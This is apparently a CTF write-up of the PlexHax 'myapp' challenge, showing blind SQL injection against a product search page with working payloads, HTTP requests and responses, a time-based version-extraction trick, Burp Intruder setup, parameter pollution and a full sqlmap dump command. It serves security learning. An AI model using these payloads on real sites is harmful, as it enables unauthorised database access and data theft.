 ## Polluted Pathways: From Innocent Parameters to Malicious SQL

Hello all! This past weekend I had the opportunity to participate in PlexHax's CTF event hosted by PlexTrac. I thoroughly enjoyed working through the available challenges and wanted to document the solution to the 'myapp' challenge. 

![](https://miro.medium.com/v2/resize:fit:627/1*OBtegrwInvE-DLh39uORzQ.png)

When first navigating to the target application, a search page is rendered allowing the user to search for different products based on attributes such as Price, Category, and Product Name. 

![](https://miro.medium.com/v2/resize:fit:437/1*7R4eB6Mlq74sWKi4mcBbrQ.png)

During the manual testing process, a noteworthy behavior emerges: the application seems to accept string concatenation. Specifically, the input fields appear to treat the `'+'` character as a legitimate means of concatenating strings. This behavior becomes evident when the input `'te'+'st'` results in the display of the word `'test'`.

The recognition of this string concatenation behavior is a significant clue. It implies that the application's backend likely constructs SQL queries by merging strings, potentially leading to a vulnerability known as SQL injection (SQLi). In SQL injection attacks, attackers exploit the application's inadequate handling of input, tricking it into executing unintended SQL queries.

**HTTP Request**
```HTTP
GET /search.php?attribute=product_name&query=hoo'+'die HTTP/2

Host: myapp.plexhax.com
```

**HTTP Response:**
```HTTP
HTTP/2 200 OK
X-Powered-By: PHP/7.4.33
Alt-Svc: h3=":443"; ma=86400

<!-- search.php -->
Product Name: hoodie - Price: $10.99<br>
```

To validate the presence of the SQLi vulnerability and delve deeper into its implications, we can adapt the _ORDER BY_ technique into a blind scenario. In a blind situation, the attacker doesn't receive direct error messages or database outputs but relies on how the application responds to crafted queries. 

By injecting ORDER BY clauses with numeric indices and observing the application response, we can solidify if the user-supplied input is influencing the SQL query execution. If vulnerable, we can also deduce valuable information, such as the number of columns in the query, the data types of columns, and more. 

```SQL
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
```

When iteratively modifying the payload `hoodie'+ORDER BY 3--+` was supplied, the application displayed the results as expected. However, when supplying 4 columns the application unexpectedly refrained from displaying the results. This distinctive behavior indicates that ordering by the fourth column yielded no matching outcomes.    

**HTTP Requests:**
```HTTP
GET /search.php?attribute=product_name&query=hoodie'+ORDER+BY+3--+ HTTP/2
Host: myapp.plexhax.com
```

**HTTP Response:**
```HTTP
HTTP/2 200 OK
Date: Thu, 17 Aug 2023 17:44:38 GMT
Content-Type: text/html; charset=UTF-8
X-Powered-By: PHP/7.4.33

<!-- search.php -->
Product Name: hoodie - Price: $10.99<br>
```

**False HTTP Request**:
```HTTP
GET /search.php?attribute=product_name&query=hoodie'+ORDER+BY+4--+ HTTP/2
Host: myapp.plexhax.com
```

**HTTP Response:**
```HTTP
HTTP/2 200 OK
Date: Thu, 17 Aug 2023 17:44:38 GMT
Content-Type: text/html; charset=UTF-8
X-Powered-By: PHP/7.4.33

<!-- search.php -->
No products found.
```


While presumptions about the database management system (DBMS) can be inferred, we can extract the version number utilizing a blind technique which can play a pivotal role in understanding the technology stack and any associated vulnerabilities. 

To achieve this, we can utilize the power of conditional statements within SQL queries. Conditional statements enable the application to execute different actions based on a specified condition. In this case, the goal was to create a statement that would selectively trigger an action based on the DBMS version number. 
```SQL
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`
```

A common technique to extract this information involves the use of the `MID()` function. The following payload was employed:

```SQL
GET /search.php?attribute=product_name&query=hoodie' OR IF(MID(@@version,1,1)='5',sleep(10),1)='2
```

Here, `@@version` refers to the DBMS version string, and `MID()` extracts the first character of the version and checks if it's equal to '5'. If the condition is true, the database will pause for 10 seconds, if not, the application response time should be `normal`.

This is a great task for Burp Intruder, a tool capable of automating repetitive HTTP requests, and inserting customized payloads into designated positions iteratively. Capture the search request and forward it to Intruder.

![](https://miro.medium.com/v2/resize:fit:627/1*ZlruPhSvQoq32sX-dmunqA.png)
Modify the attack type to use `Cluster Bomb` which allows for multiple positions to be iteratively tested based on the supplied payloads, providing all possible permutations. 

```HTTP
GET /search.php?attribute=product_name&query=hoodie'+OR+IF(MID(%40%40version,§1§,1)%3d'§5§',sleep(10),1)%3d'2 HTTP/2

```

`§1§`: A marker representing the position within the string where the first character of the version number is located.

`§5§`: A marker representing the position within the string where the specific character we're comparing to is located.

Add a new payload marker to the version number we're attempting to check (5), and the first character of @@version (1) as shown above.

Select the payloads tab and use the `Numbers` payload type for both of our payload sets. Define our range from 0-10 with a step of 1 to iterate through all numbers and start the attack. 

![](https://miro.medium.com/v2/resize:fit:627/1*eR7opk9UgPQffrRHYgbpOw.png)

The "Cluster Bomb" attack type facilitates the systematic iteration through various values at specific positions within the payload. By selecting the "Numbers" payload type and defining the range from 0 to 10 with a step of 1, the attack will execute the payload with each number in the defined range, substituting the markers accordingly.

Once the attack is initiated, the results are captured and presented for analysis. In this scenario, the "Columns" tab becomes invaluable. This tab allows the inclusion of "Response Received" and "Completed Times," providing a comprehensive overview of how the application responded to each iteration of the attack.

The conditional logic set up in the payload comes into play here. As each iteration runs, it supplies a new number to be referenced in the conditional statement, assessing whether the behavior changes in response to the modified payloads. Filtering the requests by "Response Completed" will showcase a few requests with significantly longer response times indicating that our conditional statement succeeded causing the DBMS to sleep for 10 seconds. 

Now that we've extracted some important information using manual testing, we can have `sqlmap` begin to fingerprint the DBMS and fetch data from the DB. 

It's important to note during this testing, I managed to discover HTTP Parameter Pollution (HPP) for the `query` parameter. Though HPP vulnerabilities don't directly cause SQLi vulnerabilities, they can open up additional attack vectors and allow exploitation through previously tested parameters. 

![](https://miro.medium.com/v2/resize:fit:627/1*Zpv-DX5medrtwoneCOlqaQ.png)

I included the additional query parameter and saved the HTTP request to a file titled 'request.txt'.

```HTTP
GET /search.php?attribute=product_name&query=test&query= HTTP/2
Host: myapp.plexhax.com
```

```bash
sqlmap -r request.txt -a -p query
```

![](https://miro.medium.com/v2/resize:fit:533/1*d-pWtxrGmm6W3kSZ3eOvWQ.png)

And there is our ~~flag~~! As you may have noticed from the challenge description, the flag is only obtained after using this value as the *report name* through their reporting platform. Once submitted, the redeemable flag is presented.  

